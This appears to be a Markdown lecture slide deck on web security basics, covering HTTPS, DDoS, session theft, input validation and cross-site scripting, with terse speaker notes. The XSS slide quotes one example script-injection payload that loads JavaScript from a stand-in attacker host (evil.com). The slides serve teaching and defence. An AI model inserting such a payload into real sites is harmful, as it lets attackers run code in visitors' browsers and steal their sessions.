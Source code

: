 
---
name: https

![](img/https.png){:  .white-background}


???




---
name:  DDOS

* distributed denial of service
  * overloading databases/servers
  * botnets

???
* github ddos







---
name: Session Attacks

* stealing session id / token
* JWTs help
* add https and session timeouts


???
* with jwt would need unlimited access to computer really if using https





---
name: Bad Input

* input validation
* executing user input
* trusting client

???
* purchase price example
* code execution on server example
* attacks on server, what about user to user






---
name: XSS

* Cross Site Scripting Attack
  * malicious user inputs content into site
  * display user input: `<script src="http://www.evil.com/p0wn.js">`
* protections:
  * vet input && output
  * react and express do a lot of this for us
  * dangerouslySetHTML...
